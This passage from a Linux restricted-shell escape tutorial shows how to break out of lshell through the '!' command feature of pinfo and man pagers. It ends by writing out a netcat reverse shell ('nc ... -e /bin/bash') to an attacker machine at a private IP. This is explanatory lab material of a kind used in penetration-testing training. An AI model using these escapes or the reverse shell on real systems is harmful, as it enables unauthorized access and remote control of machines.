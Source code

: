 This technique works on both “more” and “less” pagers.

3.man and pinfo Commands

The command “man”, used to display manual pages for Linux commands, also has escape features. Simply use the man command to display 
any command manual, like this:

$ man ls

When the manual for the command ls appears, use the same technique we used for the pagers.

The reason for this to work is due to the fact that “man” uses “less” or “more” as default pagers. 
Other pagers can be used instead to avoid escapes like this.

pinfo is another example of an info command that has escape features. It works just like man.

Let’s use lshell this time for a more realistic example. As you can see in the next picture, 
lshell allows just a few commands by default. The pinfo command was added to the allowed command list just for this example. 
Notice that we’ve tried to issue some commands like “nc”, “/bin/bash” and “ls /etc” directly in the shell but they were all blocked, 
lshell restricted their use:


Let’s open ls manual with pinfo with the following command:

user@kali:~$ pinfo ls

After ls manual page opens, inside pinfo hit “!” (exclamation mark). Notice that this opened a command execution feature, 
now let’s execute some simple commands, such as the previous “ls /etc” that we were not allowed by lshell before, 
and see what we can get:


Notice that we successfully bypassed lshell restrictions executing a restricted command.

Let’s try again but now using a command that is not in the allowed command list, like “nc -h”:

Notice that we managed to run a command that is not allowed by lshell through pinfo.

Now we have everything we need for a real remote shell. Now in our attacker machine (which is configured with IP 192.168.0.21), 
let’s create a listening socket using port 5000 with the following command:

$ nc -lvp 5000
Listening on [0.0.0.0] (family 0, port 5000)

We use pinfo again in our victim machine but this time we are going to issue the command “nc 192.168.0.21 5000 -e /bin/bash” and 
press ENTER. This command will try to start a connection from the victim to our attacker machine on port 5000 and 
throw it’s own /bin/bash shell to it, this technique is known as “Reverse Shell”. 
Remember that this shell is not available in lshell by default but we managed to have access to it bypassing its restrictions:


After hitting ENTER our pinfo screen went black, which means the command was probably executed without errors.
